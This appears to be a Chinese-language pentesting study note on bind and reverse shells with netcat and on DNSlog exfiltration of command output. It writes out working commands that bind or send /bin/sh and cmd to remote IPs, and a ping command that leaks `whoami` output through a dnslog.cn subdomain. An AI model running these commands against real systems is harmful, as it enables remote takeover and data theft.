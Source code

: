 ### 文件下载命令生成：

https://forum.ywhack.com/bountytips.php?download



### 反弹shell

命令生成：https://forum.ywhack.com/shell.php

为什么需要反弹shell

**解决数据回显**

![image-20250317162112019](assets/image-20250317162112019.png)

比如一个漏洞像这种，输入一个命令之后，需要你继续输入东西的，我们如果没有对方的界面，就无法继续输入东西。所以需要反弹shell获取到对方的界面

**解决数据通讯**

如果在网页上已知提交，提交一条就会有一条记录，但如果反弹shell之后就只有一条记录，后面都是本地的



#### 正向连接（本地监听等对方连接）

**Linux控制Windows**

nc在linux是自带的，在windows需要下载



在windows中：将cmd绑定到本地的5566端口（端口随机）：

`nc -e cmd -lvp 5566`

在linux中：主动连接目标的5566

`ncat 47.122.23.131 5566`



**windows控制linux**

在Linux中：绑定sh到本地5566端口

`ncat -e /bin/sh -lvp 5566`

在windows中：主动连接目标的5566

`nc 47.94.236.117 5566`



#### 反向连接（主动给出到对方监听的端口）

 例如：

windows监听本地的5566：

`nc -lvp 5566`

linux绑定自己的sh，给到对方的5566端口：

`ncat -e /bin/sh 121.62.16.96 5566`



要控制内网一台机器的权限，只能通过反向连接，因为你不知道内网机器的IP



**场景：**漏洞有，但是**数据不回显**——反弹shell

什么是dnslog

打开dnslog平台可以看到自己的地址 4o7zc8.dnslog.cn

通过linux服务器 ping 4o7zc8.dnslog.cn 可以看到记录：

![image-20250317194816121](assets/image-20250317194816121.png)

linux服务器输入命令：

```
ping `whoami`.4o7zc8.dnslog.cn
```

结果：

![1742212215565](C:\Users\86151\Documents\WeChat Files\wxid_ectne75nfs1922\FileStorage\Temp\1742212215565.jpg)

```
但是windows主机并不支持``，

cmd无法执行whoami，因为前面有个ping，要ping `whoami` 才能执行到whoami，但是windows主机的话不支持``，所以需要用到powershell变量赋值把whoami的执行结果给变量。因为执行结果中带有“\“导致ping无法执行，所以把\换掉


```



![image-20250317195133001](assets/image-20250317195133001.png)



![image-20250317195801378](assets/image-20250317195801378.png)



